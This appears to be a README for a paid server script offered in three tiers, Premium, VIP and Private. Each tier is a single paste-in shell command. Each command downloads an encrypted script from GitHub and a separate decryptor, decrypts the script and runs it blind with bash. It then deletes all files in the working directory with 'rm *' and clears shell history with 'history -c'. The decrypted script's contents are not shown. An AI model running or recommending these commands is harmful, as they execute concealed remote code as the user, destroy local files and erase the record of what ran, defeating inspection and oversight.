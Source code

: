 #Premium

`yum install install openssl coreutils gzip wget && wget https://raw.githubusercontent.com/reyluar03/linor/master/linor_premium.sh && wget https://raw.githubusercontent.com/reyluar03/rey/master/pandadec.sh && chmod +x pandadec.sh && ./pandadec.sh decrypt linor_premium.sh premdec.sh && bash premdec.sh && rm * && history -c `

#VIP

`yum install install openssl coreutils gzip wget && wget https://raw.githubusercontent.com/reyluar03/linor/master/linor_vip.sh && wget https://raw.githubusercontent.com/reyluar03/rey/master/pandadec.sh && chmod +x pandadec.sh && ./pandadec.sh decrypt linor_vip.sh premdec.sh && bash premdec.sh && rm * && history -c `

#Private

``yum install install openssl coreutils gzip wget && wget https://raw.githubusercontent.com/reyluar03/linor/master/linor_private.sh && wget https://raw.githubusercontent.com/reyluar03/rey/master/pandadec.sh && chmod +x pandadec.sh && ./pandadec.sh decrypt linor_private.sh premdec.sh && bash premdec.sh && rm * && history -c ` `
